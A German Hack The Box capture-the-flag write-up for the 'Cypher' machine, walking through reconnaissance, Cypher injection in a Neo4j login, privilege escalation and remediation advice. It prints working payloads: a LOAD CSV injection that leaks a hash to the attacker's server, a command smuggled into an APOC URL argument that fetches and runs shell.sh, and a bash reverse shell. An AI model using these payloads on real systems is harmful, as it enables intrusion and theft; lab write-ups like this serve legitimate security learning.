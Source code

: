 # Maschine 2: Cypher



## 1. Netzwerkanbindung

Wie immer starten wir mit der Verbindung zum HTB‑Netzwerk via OpenVPN:

```bash
sudo openvpn ~/Desktop/lab_lyfe691.ovpn
```

Verbindung wird durch die HTB‑Website bestätigt:

![VPN connected](image.png)

---

## 2. Zielerkennung & Vorbereitung

Ziel-IP von HTB erhalten: `10.10.11.57`

Vollständiger nmap‑Scan mit Versionserkennung, OS‑Erkennung, Scripts und Aggressivität `T4`:

```bash
nmap -sV -A -T4 10.10.11.57 -oN nmap_cypher.txt
```

Output zeigt SSH und HTTP:

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

![nmap result](Screenshot_2025-05-05_14_11_01.png)

Wir testen den HTTP‑Zugang über den Browser und merken schnell, dass die Seite `cypher.htb` erwartet – wir werden automatisch redirected.

Daher passen wir die `/etc/hosts` Datei an:

```bash
sudo nano /etc/hosts
```

```txt
10.10.11.57   cypher.htb
```

![hosts config](Screenshot_2025-05-05_14_12_29-1.png)

---

## 3. Web‑Enumeration & Eingabeprüfung

Direkt auf `http://cypher.htb` zeigt sich eine Seite mit Login‑Maske.

![alt text](Screenshot_2025-05-05_16_06_14.png)

![alt text](Screenshot_2025-05-05_16_06_14.png)

Wir testen `dirsearch`, um weitere Pfade zu finden:

```
/about
/api/ → zeigt /api/docs
/demo  → Login Page
/login
/testing/
```

![dirsearch](Screenshot_2025-05-05_14_28_23-2.png)

Beim Testen von SQL‑Injection im Login mit `' OR 1=1` erhalten wir direkt einen Neo4j‑Fehler:

![neo4j error](Screenshot_2025-05-05_14_49_33-1.png)

Das ist ein starker Hinweis: Backend nutzt **Neo4j** und **unsichere String‑Konkatenation**. Wir entscheiden uns, gezielt Cypher‑Injection zu testen.

---

## 4. Datenabfluss mit LOAD CSV auslösen

Ziel: Hash exfiltrieren.

Wir starten einen Python‑HTTP‑Server:

```bash
python3 -m http.server 8000
```

Dann testen wir eine modifizierte Payload mit `LOAD CSV` direkt in den Username‑Feld:

```json
{
  "username": "admin' OR 1=1  LOAD CSV FROM 'http://10.10.14.204:8000/leak='+h.value AS y RETURN ''//",
  "password": "123"
}
```

Im HTTP‑Server erscheint sofort:

```
GET /leak=9f54ca... HTTP/1.1
```

![hash leak](Screenshot_2025-05-05_15_19_21.png)

→ Funktioniert. Hash erfolgreich abgegriffen.

---

## 5. RCE mit getUrlStatusCode() via APOC

Wir testen weiter – unser Ziel ist Remote Code Execution (RCE).

Dokumentation zeigt, dass `apoc.custom` genutzt wird. Besonders gefährlich: `custom.getUrlStatusCode()`.

Wir erstellen `shell.sh` mit einer einfachen Bash‑Reverse‑Shell und liefern sie über den bereits laufenden Webserver:

```bash
# shell.sh
bash -i >& /dev/tcp/10.10.14.204/9001 0>&1
```

Listener starten:

```bash
nc -lvnp 9001
```

Dann bauen wir die Payload:

```json
{
  "username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;curl http://10.10.14.204:8000/shell.sh|bash;') YIELD statusCode AS value RETURN value;//",
  "password": "123"
}
```

Shell poppt – wir sind `neo4j`:

```
uid=997(neo4j) gid=995(neo4j)
```

![shell](Screenshot_2025-05-05_15_48_30-1.png)

---

## 6. Privilege Escalation → root

Wir suchen lokal nach Konfigurationsdateien, Umgebungsvariablen und SUID‑Binaries.

Zuerst entdecken wir ein Passwort in der Datei `bbot_preset.yml` (Zeile 10).

```bash
cat /opt/bbot/bbot_preset.yml
```

→ Enthält Klartext‑Passwort.

`su graphasm` klappt nicht – aber Bash mit SUID:

```bash
/tmp/bash -p
```

Jetzt sind wir root:

```bash
id
uid=0(root) gid=0(root)
```

![root shell](Screenshot_2025-05-05_15_50_40.png)

---

## 7. Flags

```bash
cat /home/graphasm/user.txt
→ 0a4de27fa731a210ead73b20dfc80140

cat /root/root.txt
→ e5577526fb5f80c5cb113cde4111ab3d
```

![1746479136549](image/Cypher/1746479136549.png)

![alt text](<Screenshot 2025-05-05 at 15-53-50 Hack The Box Hack The Box.png>)

HTB‑Link: [https://www.hackthebox.com/achievement/machine/2350832/650](https://www.hackthebox.com/achievement/machine/2350832/650)

---

## 8. Empfehlungen

1. Keine String-Konkatenation bei Cypher-Queries → **Parametrisieren!**
2. **APOC-Module** wie `getUrlStatusCode` nur bei echtem Bedarf aktivieren.
3. **SUID-Binaries** vermeiden oder hart absichern.
4. Passwörter niemals in Klartext in `.yml`-Dateien speichern.

---

✅ **HTB Cypher vollständig owned.**
